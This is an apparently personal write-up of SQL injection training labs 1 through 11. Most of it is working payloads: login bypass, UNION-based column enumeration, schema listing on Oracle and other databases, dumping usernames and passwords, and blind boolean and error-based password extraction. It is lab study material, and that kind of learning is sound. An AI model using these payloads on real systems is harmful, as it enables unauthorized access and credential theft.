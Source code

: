 # SQLi

## LAB 1 -- Retrieving hidden data

find vulnerable part by adding **_'_** which will accure error in the server
example: SELECT _ FROM product where category = '$cat_name'
error: SELECT _ FROM product where category = 'pets''
to avoid the error you need to comment all the next words by adding -- in oracle and # in microsoft
**SOLUTION :** '+or+1=1

---

## LAB 2 -- Subverting application logic

after finding vuln part we can use it for multiple reasons like bypassing login
this is the authentication logic: SELECT \* FROM users WHERE username = '$user' AND password = '$pass'

after setting $user = administrator'--
will select only administrator username and comment the next logic
**SOLUTION:** administrator'--

---

## LAB 3 -- Determining the number of columns required in a SQL injection UNION attack

with UNION you get data from other tables and display it

1. so first let's start with ' order by num -- with this payload you can check how many columns are there by inserting number from 1 until the error accured (**The ORDER BY position number 3 is out of range of the number of items in the select list.**)
2. or you can use 'union select null,null... until you found the right number of columns which the data will be displayed wothout any errors
   **SOLUTION:** '+UNION+SELECT+NULL,NULL--

---

## LAB 4 -- Finding columns with a useful data type in a SQL injection UNION attack

then you need to know the type of the column int or str by replacing null with random values like this :
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
**SOLUTION:** '+UNION+SELECT+null,'qJRR0O',NULL--

---

## LAB 5 -- Using a SQL injection UNION attack to retrieve interesting data

in this lab will you need to use union attack to retrieve the username and the password
after finding how many columns are available and there types you can use the str columns to get username and password
**SOLUTION:** '+UNION+SELECT+username,+password+FROM+users--

---

## LAB 6 -- Retrieving multiple values within a single column

in this lab you will find just one str column but you need to get the username & pass
you retrieve them in single column using the following payload
**SOLUTION:** ' UNION SELECT username || '~' || password FROM users--

---

## LAB 7 -- Querying the database type and version

**ORACLE SOLUTION:** '+UNION+SELECT+BANNER,+NULL+FROM+v$version--
**MICROSOFT SOLUTION:** '+UNION+SELECT+@@version,+NULL#

---

## LAB 8 -- Listing the contents of the database

now we need to get all content of the database notice that we will use **information_schema.tables** to get all tables and **information_scheme.columns** to get the columns of the tbales

**SOLUTION:**

1. you need to get all tables using this payload **'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--**

2. you need to get all the columns of the table with this payload:
   **'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--**
3. get the username and the pass of the admin with the following payload: **'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--**

---

## LAB 9 -- SQL injection attack, listing the database contents on Oracle

**SOLUTION:**

1. you need to get all tables using this payload **'+UNION+SELECT+table_name,+NULL+FROM+all_tables--**

2. you need to get all the columns of the table with this payload:
   **'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='users_abcdef'--**
3. get the username and the pass of the admin with the following payload: **'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--**

---

## LAB 10 -- Exploiting blind SQL injection by triggering conditional responses:

1. check if username administrator exist:
   trackingID' and (select username from users where username = 'administrator') = 'administrator' --
   "welcome back!" returned, username exist

2. enumerate the length of the password:
   send the request to the repeater and try:

   - trackingID' and (select username from users where username = 'administrator' and LENGTH(password)> 1) = 'administrator'-- ===> welcome back returned so the length of the password is > 1 ofc
   - trackingID' and (select username from users where username = 'administrator' and LENGTH(password)> 30) = 'administrator'-- ===> welcome back not returned so the length of the password is less then 30

   after send the request to the intreducer and add the params start the and find the right length

3. enumerate the password using cluster bomb attack:
   after sending the request to the intruder and use brut forcer:
   ' and (select substring(password,$1$,1) from users where username = 'administrator') = '$a$' --

---

## LAB 11 -- Blind SQL injection with conditional errors:

1. first let's inject sql code that cause an error and see if the website is vulnerable using this code:
   trackingID' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
   noticed that you will recieve internal error

2. let's check if 'administrator' user is there:
   '||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
   if the user exist the condition will be executed otherwise it'll not

3. password length enumuration:
   '||(SELECT CASE WHEN LENGTH(password)=$1$ THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
   when the right length found an error will accured

4. password enumuration:
   '||(SELECT+CASE+WHEN+SUBSTR(password,13,1)%3d'w'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'

---

## LAB 12 --
